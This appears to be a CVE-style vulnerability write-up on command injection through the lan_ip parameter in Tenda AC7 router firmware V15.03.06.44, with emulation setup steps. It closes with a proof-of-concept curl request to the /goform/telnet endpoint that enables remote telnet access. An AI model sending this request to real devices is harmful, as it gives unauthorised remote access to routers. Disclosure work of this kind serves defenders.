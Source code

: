 Overview
--
Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/c15fa54c-802a-45a4-aa5f-18607632f90b)

### Environmental simulation

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7__V15.03.06.44_httpd_ok file in this project) (modify the assembly to force skip the environment check step):
https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok

qemu command：

```text-x-haskell
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
-----

V15.03.06.44

Vulnerability Details
----

**An issue was found in the Tenda AC7 V1.0\_V15.03.06.44 device: the tendatelnet function processes the request in http, does not properly process the parameter lan\_ip, and is directly connected to the doSystem system-level function. This may lead to a command injection vulnerability and may also cause shell metacharacters to be activated. For example, an attacker may use telnet to remotely access the attacked device.**

![image](https://github.com/user-attachments/assets/560f7ed3-c51b-4052-8b54-d9d149461896)


Cross-references reveal that the parent function that calls this function is telnet, and the first-level directory name is goform.


![image](https://github.com/user-attachments/assets/bafe875a-a234-4c27-900f-dc2832326e77)


Proof of Concept
----

```text-x-haskell
curl -i -X POST http://192.168.142.100/goform/telnet -d Raining=Raining --cookie "user=admin" --http0.9
telnet 192.168.142.100 80
```
![image](https://github.com/user-attachments/assets/91ef600d-65a3-4d16-9cd5-965644cdfc3b)
